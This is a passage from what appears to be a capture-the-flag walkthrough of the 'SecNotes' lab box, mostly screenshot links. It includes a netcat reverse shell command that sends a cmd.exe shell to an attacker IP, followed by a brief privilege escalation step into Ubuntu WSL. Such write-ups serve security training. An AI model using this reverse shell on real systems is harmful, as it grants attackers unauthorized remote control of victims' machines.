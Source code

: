 **`.\nc.exe 10.10.14.4 1234 -e cmd.exe`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2014.png)

## Privilege Escalation

⇒ We see that its running Ubuntu WSL :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2015.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2015.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2016.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2016.png)

⇒ We ran bash and got access to the WSL :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2017.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Secnotes%20Box%20a2ae5f9879d94165b8a8804d563ef169/Untitled%2017.png)
